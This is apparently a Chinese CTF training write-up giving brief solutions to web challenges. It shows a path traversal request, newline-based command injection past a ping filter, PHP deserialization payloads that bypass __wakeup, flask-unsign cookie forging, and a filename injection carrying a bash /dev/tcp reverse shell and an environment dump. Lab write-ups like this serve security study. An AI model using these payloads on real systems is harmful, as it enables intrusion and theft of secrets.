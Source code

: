 
## 音乐会 Problem ID: 2

![alt text](assets/train2024/image.png)

`GET http://train2024.hitctf.cn:26130/get_resource.php?path=../../../flag.txt`

![alt text](assets/train2024/image-1.png)


## ex-pingping Problem ID: 4

综合过滤练习
组合拳

过滤了 ; 符号，翻看URL编码，%0a可以实现换行，用%0a代替 ; 符号。

http://train2024.hitctf.cn:26846/?ip=%0a env > 1.txt

http://train2024.hitctf.cn:26846/?ip=%0a more index.php 

```php
::::::::::::::
index.php
::::::::::::::
<?php

$res = FALSE;
$no = FALSE;
$waf = FALSE;

if (isset($_GET['ip'])) {
    if (preg_match('/[|&;*]/',$_GET['ip'])) {
        $waf = TRUE;
    }
    else if (preg_match('/base|cat|tac|head|tail|flag/i',$_GET['ip'])) {
        $no = TRUE;
    }
    else {
        $cmd = "ping -c 4 {$_GET['ip']}";
        exec($cmd, $res);
    }
}

?>

<!DOCTYPE html>
<html>
<head>
<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
<link rel="stylesheet" type="text/css" href="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.css">
<script src="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.js"></script>
<title>pingping</title>
<style>
    body > .grid {
      height: 100%;
      margin-top: 100px;
    }
    .column {
      max-width: 450px;
    }
    .img1 {
        height: 250px;
        width: 275px;
    }
</style>
</head>
<body>

<div class="ui middle aligned center aligned grid">
<div class="column">

<h2 class="ui teal image header">
    <div class="content">
        Ping一下吧？
    </div>
</h2>

<form action="#" method="GET" class="ui large form initial">
    <div class="ui stacked segment">
    <div class="field">
        <input type="text" id="ip" name="ip" placeholder="IP">
    </div>
    <input type="submit" value="Ping" class="ui primary button">
</div>
</form>

<pre>
<?php
if ($waf) {
    echo "No you bad hacker...<br>";
}
else if ($no) {
    echo "想要flag?<br>";
    echo "<img class='img1' src=/img/agms.jpg>";
}
else if ($res) {
    foreach ($res as $line) {
        if (preg_match('/[{}]/',$line)) die("等等，这输出有问题，你不许读！<br><img src=/img/ask.jpg>");
        echo $line.'<br>';
    }
}
?>
</pre>
</div>
</div>
</body>
</html>
```



绕过应用举例

**当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。**

漏洞影响范围
PHP5 < 5.6.25
PHP7 < 7.0.10

标准序列化结果

`O:4:"User":2:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

将2改为3 绕过__Wakeup魔法函数

`O:4:"User":3:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

————————————————

                            版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
                        
原文链接：https://blog.csdn.net/eason612/article/details/130607125



## 反序列化

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class evil{
    public $cmd;
    public $a;
    public function __destruct(){
        eval($this->cmd.'114514');
    }
}

if(!preg_match('/^[Oa]:[\d]+|Array|Iterator|Object|List/i',$_GET['Pochy'])){
    unserialize($_GET['Pochy']);
} else {
    die("hacker!");
}
```

`O:4:"evil":1:{s:3:"cmd";s:9:"echo 1;//";}`

`C:8:"SplStack":44:{O:4:"evil":1:{s:3:"cmd";s:12:"phpinfo();//";}`

>很经典不能O,a开头，那我们就C开头，不能有ArrayObject，啧，之前ctfshow学到的没用了，最终发现SplStack这个类也能用，然后就是绕__destruct，也就是只能使用[A-Za-z_\(\)]，最后带个; 怎么把givemegirlfriend! 除掉是个问题，__halt_compiler(); 可以中断编译器的执行，不让eval解析后面的就行了，这里没法用引号，所以得构造无参rce，exp如下：

https://www.cnblogs.com/F12-blog/p/17472787.html


## flask
```shell
flask-unsign --unsign --cookie eyJyb2xlIjoiYW5vbnltb3VzIn0.ZnPqiw.nFlXAccc0v_3qOQU5YqV2yam_tA

flask-unsign --sign --cookie "{'role':'admin'}" --secret 'admin123'
```

## flask 反弹shell

student_id注入

```python 
    old_path = saveTmp(delete=False).name
    file.save(old_path)
    new_path = f"uploads/{name}-{student_id}.zip"
    os.system(f"mv {old_path} {new_path}")
```

```shell
#student_id 
123.zip ; bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/xxxx <&1' #
123.zip ; env > robots.txt #
```